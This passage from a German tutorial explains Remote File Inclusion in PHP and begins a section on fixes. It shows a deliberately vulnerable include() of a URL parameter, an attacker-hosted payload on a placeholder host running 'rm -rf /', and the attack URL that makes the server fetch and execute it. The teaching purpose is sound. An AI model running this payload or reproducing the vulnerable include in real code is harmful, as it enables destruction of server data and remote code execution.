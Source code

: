 > **PHP**

```php
<?php
// laden.php = ANFÄLLIGER CODE FÜR RFI
$ressource = $_GET['quelle']; //Nimmt den Wert des 'quelle' - Parameters
include($ressource); //Bindet die angegebene Ressource ein
?>
```
Ein normaler Aufruf wäre: `https://ihre-website.de/laden.php?quelle=lokale_datei.php`

---

### **So nutzt ein Angreifer RFI aus:**

1. **Vorbereitung durch den Angreifer:** Der Angreifer erstellt eine kleine Datei mit bösartigen PHP-Code und legt sie auf seinem eigenen Webserver ab, z.B. unter `https://angreifer.com/meine_schadsoftware.txt`: 

    >**PHP**

    ```php
    <?php
    echo "<h1>Ihre Website wurde gehackt!</h1>";
    system("rm -rf /"); // Extrem gefährlicher Befehl: Löscht das gesamte Dateisystem!
    ?>
    ```

(Wichtig: Die Dateiendung ist hier irrelevant, da der Inhalt vom angreifenden Server kommt und die Opferanwendung ihn als PHP-Code interpretiert.)

2. **Angriff auf Ihre Website:** Der Angreifer ruft Ihre Website mit diesen URL auf:  <br> `https://ihre-website.de/laden.php?quelle=https://angreifer.com/meine_schadsoftware.txt` 

- **Was passier intern:**
  - Die Variable `$ressource` erhält den Wert  <br> `https://angreifer.com/meine_schadsoftware.txt`
  - Der `include()`-Befehl auf Ihrem Server lädt den Inhalt dieser externen URL.
  - Da `allow_url_include` auf `On` steht, interpretiert Ihr Server den heruntergeladenen Inhalt als PHP-Code und **führt ihn aus**.
- **Ergebnis:** Die Nachricht *Ihre Website wurde gehackt!* erscheint, und (im schlimmsten Fall) wird der gefährliche Befehl `system("rm -fr /");` ausgeführt, was zur **vollständigen Löschung der Serverdaten** führen könnte. **Dies ist die direkte Remote Code Execution.**

---

## **Wie kann man File Inclusion-Schwachstellen beheben?**

Die gute Nachricht ist, dass diese Schwachstelle **vermeidbar** sind! Der goldene Grundsatz der IT-Sicherheit lautet: **Vertraue niemals Benutzereingaben!** Wenden Sie diese Prinzipien konsequent an:

#### **1. Eingabe Immer validieren und filtern (Der absolute Grundstein!)**

Dies ist die wichtigiste Maßnahme. Sie müssen sicherstellen, dass jede Eingabe, die Sie von einem Benutzer erhalten (sei es über URLs, Formulare oder andere Quellen), genau das ist, was Sie erwarten, und nichts Böses enthält.

